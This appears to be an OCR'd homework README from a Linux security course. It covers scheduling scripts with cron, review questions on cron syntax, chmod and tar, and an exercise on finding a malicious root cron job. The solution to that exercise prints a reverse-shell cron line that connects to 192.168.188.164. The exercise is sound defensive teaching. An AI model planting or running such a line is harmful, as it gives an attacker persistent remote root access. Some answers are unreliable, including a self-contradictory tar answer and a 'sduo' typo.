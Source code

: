 We want to add our scripts to the system wide cron directories to schedule our scripts. We will do the following:
```console
cd ~/Security_scripts 
sudo cp backup.sh /etc/cron.weekly 
sudo cp update.sh /etc/cron.weekly
sduo cp cleanup.sh /etc/cron.daily
sudo cp lynis.system.sh /etc/cron.weekly 
sudo cp lynis.partial.sh /etc/cron.daily
```

## Reviewing
When will the following cron schedules run? 
*/10 * * * * <br>
■ Solution: At every 10th minute. 

What event is the following cron a minute away from? 
59 23 31 12 * <br>
■ Solution: New Years! 

What do the following hypothetical cron likely do? 
0 18 * * 1-5 /home/Bob/Sales/sum_of_sales.sh <br>
■ Solution: Run a script that adds up all the sales for the work day. 

@weekly /home/sysadmin/Scripts/auto-update.sh <br>
■ Solution: A weekly automated system update. 

What is a shebang? <br>
■ Solution: It is the commented file declaration at the top of a shell script. 

What two characters should come before the filename of a script? <br>
■ Solution: ./ 

Jane's script has "user" and "group" ownership of a script with -rw-r--r-- 
permissions, but she cannot get it to run. What must she do to the file before it will
run? <br>
■ Solution: Run chmod +x on her file! 

How does the -x option modify the tar command? <br>
■ Solution: This option will let tar extract an archive!
If a directory has ten files and the following command is used in it, how many files
are being archived? 

tar cvvWf backups/archive.tar <br>
■ Solution: Zero, because tar doesn’t compress! But all files should be
archived as they're all in the current directory! 

What option prints the full file specification of files as you interact with them? <br>
■ Solution: -vv 

Why is the -f option used in almost every tar operation? <br>
■ Solution: The -f option lets you designate a tar file to either "create" or
"extract" or "list" from. 

You are tasked to look through the cron jobs within your current workstation to see
if any suspicious or modified cronjobs exist. Remove the one that matches the following
descriptions: Cron is running system-level jobs with root privileges. The cron task you're
looking for involves another machine. <br>
■ Solution: <br>
Run sudo crontab -e to open the root crontab. <br>
The cron you wanted to remove was: <br>
*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1 

